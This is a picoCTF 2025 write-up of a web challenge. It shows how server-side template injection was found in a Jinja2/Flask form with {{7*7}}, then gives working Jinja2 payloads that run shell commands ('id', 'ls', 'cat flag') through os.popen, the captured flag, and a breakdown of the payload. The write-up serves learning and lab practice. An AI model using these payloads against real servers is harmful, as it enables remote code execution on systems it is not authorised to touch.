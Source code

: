 # SSTI1 - picoCTF 2025

## 📂 Category
- Web Exploitation  
- Difficulty: Easy  

---

## 🧩 Challenge Description
The challenge provided a simple web form that reflected user input. 

---

## 🔍 Initial Observations
- Entering expressions like `{{7*7}}` returned `49`, indicating possible Server-Side Template Injection (SSTI).
---

## 🧪 Exploitation Steps

1. Entered: ```{{7*7}}``` → Response was `49` → Confirmed SSTI.
2. Tried: ```{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}```
3. Got a system-level response confirming Remote Code Execution (RCE).
4. Ran: ```{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}```
5. Server files listed.
6. Finally: ```{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}```
7. Revealed the flag.

---

## 🏁 Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}

---

## 🧠 What I Learned

**What is a Template Engine?**

A template engine helps generate dynamic web pages. Instead of hardcoding values, you write placeholders like:

```<p>Hello, {{ name }}!</p>```

The server fills in the actual data.

In this challenge, the web page uses Jinja2, the default template engine for Python's Flask framework, to make the page dynamic. Different frameworks use different engines and syntax. For example, if the site was built with Django, an expression like ```{{7}}``` might be enough to test for evaluation.

**What is SSTI?**

Server-Side Template Injection occurs when user input is unsafely inserted into a template. If an input like ```{{7*7}}``` returns 49 (7 times 7 = 49), the server is evaluating user input as code.

**Note:** 7\*7 is just a common convention—it could be any expression.

If unpatched, SSTI can lead to:
- Data leaks
- Remote code execution (RCE)
- Full server compromise

**Code explanation**

```{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}```

- ```request```	: A Flask object representing the current HTTP request.
- ```request.application``` : The Flask application instance being used.
- ```__globals__```: Accesses the global variables of the template’s underlying Python environment.
- ```__builtins__``` : Exposes all built-in Python functions and objects (like open, print, __import__, etc.).
- ```__import__('os')``` : Dynamically imports the os module — a powerful module for interacting with the system.
- ```.popen('id')``` : Runs the shell command id, which returns the current user and group info. Can replace with other commands (eg: ls, cat, etc)
- ```.read()``` : Reads and returns the output of that command.

---

## 📚 References

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
